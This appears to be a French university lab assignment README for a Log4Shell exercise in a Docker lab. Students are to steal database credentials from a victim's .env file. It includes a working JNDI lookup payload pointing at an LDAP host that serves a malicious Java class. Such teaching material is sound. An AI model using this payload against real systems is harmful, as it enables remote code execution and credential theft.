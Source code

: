 # Sujet - TP Log4Shell - Ne fonctionne pas pour le moment !!!
### BERTRAND Timothé - BLANC Olivier - PAYS Antoine - GENIN Fabien
### A rendre pour le jeudi 10 février 2022 23H59


## Exercice

### **Objectif** : Récuperer le contenu de la BDD avec les informations présentes dans le fichier .env de la victime.


**Schéma explicatif rapide :** 

Vous êtes un attaquant et vous souhaitez accéder à une BDD, sauf que vous n'avez pas les informations pour vous connectez à la BDD. Ces informations se trouvent dans le fichier .env de la victime.
Il faut savoir que le développeur du serveur victime a choisi de logger les identifiants d'un utilisateur lors de l'envoi du formulaire.


## Configuration

Pour utiliser les commandes docker vous devrez vous connecter à VDN à l'iut comme vous en avez l'habitude pour les  autres TP précédents

Si vous utilisez les machines de l'iut, lancer `vdn docker-tmp`.
Start la machine root@debian-1
Dans la console de la VM root@debian-1, créer un répertoire "log4shell" 
Faire `cd log4shell` et ensuite `git clone https://github.com/Fabinhio25/TPLog4Shell`

Faire un `make all` pour créer tous les DockerFiles

Après avoir fait le make all, faire un `docker-compose up` dans le repertoire cloné.
Récupérer les IP de server et de victime dans la console quand docker-compose up est executé
Victim_1 | Running on IP : XXX.XXX  
Server_1 | Running on IP : XXX.XXX
L'IP server sera a mettre dans le lookup plus tard

Etapes à reproduire pour la réalisation du tp :

Créer un fichier java dans lequel le code devra récupérer et écrire le .env de la base de données dans les logs du serveur.
Appeler votre class java dans une requete faite au serveur, grace à un lookup vu en cours.

Exemple de lookup : "${jndi:ldap://172.22.0.5:9999/WithReturn}"

## Vous pourrez trouver des exemples d'attaques dans le fichier "attacker.java"

### Question : 
    
    Le but est de se connecter sur le serveur de la victime en tant que administrateur. Utiliser le lookup vu en cours, afin d'appeler et d'exécuter la class (code malicieux). Pour écrire le contenu du fichier .env dans les logs, l'envoyer au loggeur du serveur afin de récupérer dans les logs du serveur. Grace à cette manipulation vous allez pouvoir récupérer l'identifiant et mot de passe de l'administrateur du serveur.

    Vous trouverez des exemples du fichier java /TPLog4Shell/attacker/java/ :

    Simple.java
    WithReturn.java
